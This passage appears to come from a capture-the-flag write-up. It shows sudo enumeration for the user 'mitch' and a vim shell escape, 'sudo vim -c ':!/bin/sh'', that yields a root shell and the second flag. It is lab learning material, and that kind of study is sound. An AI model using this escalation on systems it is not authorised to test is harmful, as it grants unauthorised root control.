 ## Sudo enumeration
```bash
sudo -l
```
- `mitch` can run `/usr/bin/vim` as root (NOPASSWD).

```bash
sudo vim -c ':!/bin/sh'
whoami
# root
```

<img width="347" height="122" alt="2" src="https://github.com/user-attachments/assets/8bd3e52e-3b94-4cf0-afe8-0f0700246f59" />

- Second flag found: `[FLAG FOUND]`
